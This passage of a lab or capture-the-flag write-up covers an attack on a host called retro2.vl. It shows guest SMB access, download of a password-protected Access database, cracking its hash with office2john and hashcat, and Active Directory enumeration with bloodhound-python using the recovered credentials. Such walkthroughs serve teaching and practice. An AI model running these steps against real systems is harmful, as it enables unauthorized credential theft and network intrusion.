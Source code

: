 Let's check `Public` share
```
└─$ impacket-smbclient -no-pass guest@10.10.100.238                                             
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

Type help for list of commands
# use Public
# ls
drw-rw-rw-          0  Sat Aug 17 19:30:37 2024 .
drw-rw-rw-          0  Sat Aug 17 19:30:37 2024 ..
drw-rw-rw-          0  Sat Aug 17 19:30:37 2024 DB
drw-rw-rw-          0  Sat Aug 17 16:58:07 2024 Temp
```

We found `staff.accdb` file inside `DB` directory, which is `Microsoft Access Database`
```
└─$ impacket-smbclient -no-pass guest@10.10.100.238
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

Type help for list of commands
# cd DB
[-] No share selected
# use Public
# cd DB
# ls
drw-rw-rw-          0  Sat Aug 17 19:30:37 2024 .
drw-rw-rw-          0  Sat Aug 17 19:30:37 2024 ..
-rw-rw-rw-     876544  Sat Aug 17 19:30:34 2024 staff.accdb
# get staff.accdb
```
```
└─$ file staff.accdb                                                                                                                                   
staff.accdb: Microsoft Access Database
```

We can't open it, since it prompts for a password. Let's crack it
```
└─$ office2john staff.accdb > staff.hash                               
```
```
└─$ hashcat --username -m 9600 staff.hash /usr/share/wordlists/rockyou.txt 
hashcat (v6.2.6) starting
<SNIP>
$office$*2013*100000*256*16*5736cfcbb054e749a8f303570c5c1970*1ec683f4d8c4e9faf77d3c01f2433e56*7de0d4af8c54c33be322dbc860b68b4849f811196015a3f48a424a265d018235:<REDACTED>
<SNIP>
                                    
```

Now we can open the file

![](1.png)

Now we have creds, let's start enumeration with it. Nothing new in shares. We can try gathering domain information with `bloodhound`. Add `retro2.vl` and `bln01.retro2.vl` to `/etc/hosts`
```
└─$ bloodhound-python -d retro2.vl -u 'ldapreader' -p '<REDACTED>' -dc bln01.retro2.vl -ns 10.10.100.238 --dns-timeout 10 --zip -c All 
INFO: Found AD domain: retro2.vl
INFO: Getting TGT for user
INFO: Connecting to LDAP server: bln01.retro2.vl
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 4 computers
INFO: Connecting to LDAP server: bln01.retro2.vl
INFO: Found 27 users
```